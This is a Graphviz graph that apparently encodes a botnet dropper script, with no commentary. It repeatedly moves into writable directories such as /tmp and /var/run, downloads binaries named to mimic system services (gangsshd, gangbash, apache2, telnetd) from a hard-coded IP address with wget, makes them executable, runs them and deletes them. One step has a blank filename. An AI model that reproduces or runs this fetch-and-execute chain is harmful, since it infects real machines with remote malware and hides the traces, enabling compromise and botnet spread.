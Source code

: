 digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://45.76.84.83/gangntpd "];
10 -> 12 [label=";,"];
12 [label="chmod +x gangntpd "];
12 -> 14 [label=";,"];
14 [label="./gangntpd "];
14 -> 16 [label=";,"];
16 [label="rm -rf gangntpd "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://45.76.84.83/gangsshd "];
28 -> 30 [label=";,"];
30 [label="chmod +x gangsshd "];
30 -> 32 [label=";,"];
32 [label="./gangsshd "];
32 -> 34 [label=";,"];
34 [label="rm -rf gangsshd "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://45.76.84.83/gangopenssh "];
46 -> 48 [label=";,"];
48 [label="chmod +x gangopenssh "];
48 -> 50 [label=";,"];
50 [label="./gangopenssh "];
50 -> 52 [label=";,"];
52 [label="rm -rf gangopenssh "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://45.76.84.83/gangbash "];
64 -> 66 [label=";,"];
66 [label="chmod +x gangbash "];
66 -> 68 [label=";,"];
68 [label="./gangbash "];
68 -> 70 [label=";,"];
70 [label="rm -rf gangbash "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://45.76.84.83/gangtftp "];
82 -> 84 [label=";,"];
84 [label="chmod +x gangtftp "];
84 -> 86 [label=";,"];
86 [label="./gangtftp "];
86 -> 88 [label=";,"];
88 [label="rm -rf gangtftp "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://45.76.84.83/gangwget "];
100 -> 102 [label=";,"];
102 [label="chmod +x gangwget "];
102 -> 104 [label=";,"];
104 [label="./gangwget "];
104 -> 106 [label=";,"];
106 [label="rm -rf gangwget "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://45.76.84.83/gangcron "];
118 -> 120 [label=";,"];
120 [label="chmod +x gangcron "];
120 -> 122 [label=";,"];
122 [label="./gangcron "];
122 -> 124 [label=";,"];
124 [label="rm -rf gangcron "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://45.76.84.83/gangftp "];
136 -> 138 [label=";,"];
138 [label="chmod +x gangftp "];
138 -> 140 [label=";,"];
140 [label="./gangftp "];
140 -> 142 [label=";,"];
142 [label="rm -rf gangftp "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://45.76.84.83/gangpftp "];
154 -> 156 [label=";,"];
156 [label="chmod +x gangpftp "];
156 -> 158 [label=";,"];
158 [label="./gangpftp "];
158 -> 160 [label=";,"];
160 [label="rm -rf gangpftp "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://45.76.84.83/gangsh "];
172 -> 174 [label=";,"];
174 [label="chmod +x gangsh "];
174 -> 176 [label=";,"];
176 [label="./gangsh "];
176 -> 178 [label=";,"];
178 [label="rm -rf gangsh "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://45.76.84.83/  "];
190 -> 192 [label=";,"];
192 [label="chmod +x   "];
192 -> 194 [label=";,"];
194 [label="./  "];
194 -> 196 [label=";,"];
196 [label="rm -rf   "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://45.76.84.83/apache2 "];
208 -> 210 [label=";,"];
210 [label="chmod +x apache2 "];
210 -> 212 [label=";,"];
212 [label="./apache2 "];
212 -> 214 [label=";,"];
214 [label="rm -rf apache2 "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://45.76.84.83/telnetd "];
226 -> 228 [label=";,"];
228 [label="chmod +x telnetd "];
228 -> 230 [label=";,"];
230 [label="./telnetd "];
230 -> 231 [label=";,"];
}
